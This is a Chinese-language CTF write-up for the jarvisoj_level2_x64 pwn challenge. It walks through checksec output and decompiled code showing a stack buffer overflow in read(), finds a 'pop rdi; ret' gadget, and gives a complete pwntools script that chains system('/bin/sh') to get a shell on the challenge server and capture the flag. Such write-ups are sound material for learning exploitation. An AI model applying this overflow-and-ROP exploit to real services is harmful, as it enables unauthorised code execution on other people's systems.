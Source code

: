 ```yaml
---
title: jarvisoj_level2_x64
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

先 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec level2_x64
[*] '/home/ela/Pwn/level2_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开启了 NX，排除 ShellCode

用 IDA 64 打开主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return system("echo 'Hello World!'");
}
```

在看一下函数 `vulnerable_function()`

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  system("echo Input:");
  return read(0, buf, 0x200uLL);
}
```

感觉像可以构造 ROP 链，有 `system()`，地址为 `0x4004c0`

再 Shift + F12 找一下 `/bin/sh`，也有，地址为 `0x600a90`

思路已经很清晰了，在 `vulnerable_function()` 中的 `read()` 函数中造成栈溢出，然后执行 ROP 链，现在少一个 `pop rdi; ret` 的地址

于是使用 ROPgadget 查找，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ROPgadget --binary level2_x64 --only "pop|rdi|ret"
Gadgets information
============================================================
0x00000000004006ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b0 : pop r14 ; pop r15 ; ret
0x00000000004006b2 : pop r15 ; ret
0x00000000004006ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400560 : pop rbp ; ret
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
0x00000000004006ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004a1 : ret

Unique gadgets found: 11
```

找到可利用的 `pop rdi; ret` 地址为 `0x4006b3`

接下来就可以构建 Exp

## 编写 Exp

```python
from pwn import *

io = remote("node4.buuoj.cn", 28252)
elf = ELF("./level2_x64")

system_addr = 0x4004c0
bin_sh_addr = 0x600a90
pop_rdi_ret = 0x4006b3

payload = b"A"*(0x80+0x8) + pack(pop_rdi_ret, 64) + pack(bin_sh_addr, 64) + pack(system_addr, 64)
io.sendline(payload)

io.interactive()

```

很简单，最后得到的 Flag 为 `flag{3564fa65-d4d2-47d9-a9c9-2187cc2bb947}`